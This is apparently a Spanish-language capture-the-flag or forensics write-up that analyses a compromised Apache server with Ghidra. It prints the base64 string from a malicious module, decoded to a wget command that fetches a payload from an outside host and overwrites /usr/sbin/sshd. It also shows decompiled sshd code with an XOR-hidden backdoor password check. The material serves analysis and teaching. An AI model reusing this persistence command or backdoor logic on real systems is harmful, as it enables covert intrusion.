 Al hacerle un **Cat** vemos que carga un modulo de la siguiente dirección:
```
LoadModule reader_module      /usr/lib/apache2/modules/mod_reader.so
```

Este archivo, podemos pasarlo a nuestra maquina para echarle un ojo también con **Ghidra**. Vemos que hay una funcion de nombre **hook_post_config** la cual hace un decode de la siguiente linea:
```
d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0 ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk==
```
Al hacer el proceso inverso, vemos el siguiente comando:
```
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d
```

Esto nos da una pista, ahora nos queda inspeccionar el **SSHD** en busca de algo interesante. Dentro, encontramos una funcion que tiene algunas variables de nombre **Backdoor** luego, les aplica un **Xor** para posteriormente hacer un **Strcmp** (compara los valores):
```c
  backdoor[28] = -0xc;
  backdoor[29] = -0x57;
  ppVar1 = ctxt->pw;
  iVar9 = ctxt->valid;
  backdoor[24] = -0x1d;
  backdoor[25] = -0x4b;
  backdoor[26] = -0x10;
  backdoor[27] = -0x44;
  backdoor[16] = -0x2a;
  backdoor[17] = -0x4d;
  backdoor[18] = -0x60;
  backdoor[19] = -3;
  backdoor[20] = -0x60;
  backdoor[21] = -0xc;
  backdoor[22] = -0x2a;
  backdoor[23] = -0x4e;
  backdoor[30] = -0x5b;
  backdoor[0] = -0x2a;
  backdoor[1] = -0x55;
  backdoor[2] = -0x19;
  backdoor[3] = -0x10;
  backdoor[4] = -0xd;
  backdoor[5] = -0x5d;
  backdoor[6] = -0x4d;
  backdoor[7] = -0x5c;
  backdoor[8] = -0x38;
  backdoor[9] = -3;
  backdoor[10] = -0x45;
  backdoor[11] = -9;
  backdoor[12] = -0x19;
  backdoor[13] = -0x2a;
  backdoor[14] = -0x4d;
  backdoor[15] = -3;
  pbVar4 = (byte *)backdoor;
  while( true ) {
    pbVar5 = pbVar4 + 1;
    *pbVar4 = bVar7 ^ 0x96;
    if (pbVar5 == local_39) break;
    bVar7 = *pbVar5;
    pbVar4 = pbVar5;
  }
  iVar2 = strcmp(password,backdoor);
```
